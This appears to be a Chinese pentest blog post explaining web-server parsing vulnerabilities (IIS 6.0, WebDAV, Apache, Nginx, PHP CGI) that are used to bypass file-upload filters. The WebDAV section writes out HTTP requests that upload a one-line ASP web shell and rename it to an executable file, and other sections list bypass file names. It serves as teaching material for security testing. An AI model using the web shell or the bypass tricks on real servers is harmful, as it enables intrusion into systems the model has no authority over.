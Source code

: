 +++
date = "2016-07-20T16:08:17+08:00"
description = ""
draft = false
tags = ["文件上传"]
title = "文件上传之解析漏洞"
topics = ["Pentest"]

+++

### 0x00 解析漏洞
> ```
文件上传漏洞通常与Web容器的解析漏洞配合利用
常见Web容器有IIS、Nginx、Apache、Tomcat等
```

### 0x01 IIS解析漏洞
> IIS6.0在解析文件时存在以下两个解析漏洞
```
1、当建立*.asp、*.asa格式的文件夹时，其目录下任意文件都会被iis当作asp文件来解析。
2、当文件名为*.asp;1.jpg时，IIS6.0同样会以ASP脚本来执行。
```
WebDav漏洞
```
    WebDav是一种基于HTTP1.1协议的通信协议，它扩展了HTTP协议。在开启WebDav后若
支持PUT、Move、Copy、Delete等方法，就会存在安全隐患。

测试步骤如下：
    1）通过OPTIONS探测服务器所支持的HTTP方法
    请求：
    OPTIONS / HTTP/1.1
    Host: www.xxxx.com
    2)通过PUT方法向服务器上传shell
    请求：
    PUT /a.txt HTTP/1.1
    Host: www.xxxx.com
    Content-Length: 30

    <%eval request("chopper") %>
    3)通过Move或Copy方法改名
    请求：
    COPY /a.txt HTTP/1.1
    Host: www.xxxx.com
    Destination: http://www.xxxx.com/cmd.asp
    4)用DELETE方法删除文件
    请求：
    DELETE /a.txt HTTP/1.1
    Host: www.xxxx.com

注：可用桂林老兵的IIS Write快速探测服务器是否存在WebDav漏洞
```

### 0x02 Apache解析漏洞
> ```
在Apache 1.x和Apache 2.x中存在解析漏洞。

Apache在解析文件时有一个原则，当碰到不认识的扩展名时，将会从后向前解析，
直到碰到认识的扩展名为止，如果都不认识，则会暴露其源代码。
如：1.php.rar.sa.xs就会被解析为php，可以据此来绕过文件名限制

可以在Apache安装目录下的文件"/conf/mime.types"中配置Apache可以识别的文件名
```

### 0x03 Nginx解析漏洞
> ```
对低版本的Nginx可以在任意文件名后添加%00.php进行解析攻击
如：上传图片xx.jpg，然后通过改名为xx.jpg%00.php就会解析为php
```

### 0x04 PHP CGI解析漏洞
> ```
当php的配置文件中的选项cgi.fix_pathinfo = 1开启时，当访问http://www.xxx.com/x.txt/x.php
时，若x.php不存在，则PHP会递归向前解析，将x.txt当作php脚本来解析

IIS7.0/7.5中：任意文件名/任意文件名.php就会被解析为php
Nginx中：任意文件名/任意文件名.php就会被解析为php
```